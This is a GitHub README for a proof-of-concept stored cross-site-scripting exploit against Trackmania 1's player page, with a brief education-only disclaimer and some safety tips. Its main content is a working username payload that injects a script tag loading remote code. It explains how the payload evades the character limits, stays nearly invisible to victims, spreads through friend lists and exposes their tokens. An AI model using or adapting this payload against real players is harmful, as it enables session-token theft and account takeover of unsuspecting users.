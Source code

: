 # 🔗 trackmania-xss-payloads
Repo of XSS payloads you can try when using Trackmania 1's playerpage
> [!WARNING]
> I am not responsible for any damage done with the knowledge from this repo. It's a proof of concept which is created only for education and research purposes. By using this code you accept that you will **NOT** use this method in malicious purposes and that [kvbaxi](https://github.com/kvbaxi) takes no responsibility for misusage of this content.
## 💻 Put this in your name to make payload
```
$l["><script/src="//payload_link_here"></script>]username
```
## ❗ How can you be safe?
> [!CAUTION]
> **THIS EXPLOIT EXPOSES YOUR TOKEN! DON'T SKIP THIS SECTION UNLESS YOU DON'T WANT TO BE SAFE!**

The easiest method of preventing yourself from being attacked by this exploit is by:
- Disabling JavaScript/Removing permission for JavaScript for this site - the site uses small amount to none of JavaScript, that means you can safely turn it off from this site while also not losing any funcitonalities of page.
- Do not add random people to friends. - Main way to get attacked by this attack is by having user with said payload in friends. As it will display friends in stats section you're very likely to be hit by this way if you won't be cautious. **Check who you're adding first!**

## ❓ How does it work?
Trackmania 1's playerpage is very insecure and old (due to the game not being updated), hence in time there were more and more security flaws found. One of them is this exact [XSS](https://wikipedia.org/wiki/Cross-Site-Scripting). It works by escaping the site's link formatting code and executing own code with newly appended `<script>` tag.  
  
One of the cons of this method is that you have limited set of characters you can use and length. You cannot use unescaped spaces as they will be escaped into HTML encoding (`" " -> &nbsp;`) so that is why I chose to use `/` instead as it converts `/` correctly as it was space.  
  
In result you get clean payload **almost** invisible to human eye. The main change you'll notice when using this payload on your name is that on stats page you'll see `">` on the beginning of your name. You can't prevent that without wasting another characters. In trackmania though, your payload is **completely invisible** on first look. Player has to hover over your name to see the suspicious payload in the place of link.  

Due to need in saving characters you cannot use the GitHub Pages link I have for my repo as it will be too long. I recommend using shortener that will make it as **short as possible**.

## 🎥 Preview
https://github.com/kvbaxi/trackmania-xss-payloads/assets/47297843/2a2593d9-e276-443b-9a18-7e3edaeb854f

